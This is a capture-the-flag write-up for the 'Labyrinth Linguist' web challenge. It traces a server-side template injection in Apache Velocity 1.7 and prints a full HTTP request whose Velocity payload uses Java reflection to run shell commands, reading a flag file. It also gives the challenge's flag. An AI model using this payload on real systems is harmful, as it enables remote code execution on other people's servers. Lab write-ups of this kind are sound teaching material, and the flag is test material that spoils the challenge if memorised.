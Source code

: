 # Labyrinth Linguist - Easy

In this challenge, participants are provided with a website and the Java source code.

![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/dc66efc0-89b7-4362-9af5-799cb705a322)


## Solution

In `/challenge/pom.xml` file, there is a Apache Velocity dependency with version `1.7`

> /challenge/pom.xml
> ```xml
> <dependencies>
> <dependency>
> <groupId>org.springframework.boot</groupId>
> <artifactId>spring-boot-starter-web</artifactId>
> </dependency>
> <dependency>
> <groupId>org.apache.velocity</groupId>
> <artifactId>velocity</artifactId>
> <version>1.7</version>
> </dependency>
> <dependency>
> <groupId>org.apache.velocity</groupId>
> <artifactId>velocity</artifactId>
> <version>1.7</version>
> </dependency>
> </dependencies>
> ```

This version is vulnerable to SSTI in Apache Velocity. With modifying the payload in this source: https://iwconnect.com/apache-velocity-server-side-template-injection/, we are able to run Code Exection in the website.

```
POST / HTTP/1.1
[..snip..]

text=#set($s="")
#set($stringClass=$s.getClass())
#set($stringBuilderClass=$stringClass.forName("java.lang.StringBuilder"))
#set($inputStreamClass=$stringClass.forName("java.io.InputStream"))
#set($readerClass=$stringClass.forName("java.io.Reader"))
#set($inputStreamReaderClass=$stringClass.forName("java.io.InputStreamReader"))
#set($bufferedReaderClass=$stringClass.forName("java.io.BufferedReader"))
#set($collectorsClass=$stringClass.forName("java.util.stream.Collectors"))
#set($systemClass=$stringClass.forName("java.lang.System"))
#set($stringBuilderConstructor=$stringBuilderClass.getConstructor())
#set($inputStreamReaderConstructor=$inputStreamReaderClass.getConstructor($inputStreamClass))
#set($bufferedReaderConstructor=$bufferedReaderClass.getConstructor($readerClass))

#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("cat /flag5017a20bb4.txt"))
#set($null=$process.waitFor() )

#set($inputStream=$process.getInputStream())
#set($inputStreamReader=$inputStreamReaderConstructor.newInstance($inputStream))
#set($bufferedReader=$bufferedReaderConstructor.newInstance($inputStreamReader))
#set($stringBuilder=$stringBuilderConstructor.newInstance())

#set($output=$bufferedReader.lines().collect($collectorsClass.joining($systemClass.lineSeparator())))

$output
```

![image](https://github.com/ITSEC-ASIA-ID/Competitions/assets/49203884/c7c3d0d8-d726-44e9-9666-e6935c2eef22)


## Flag
HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!}

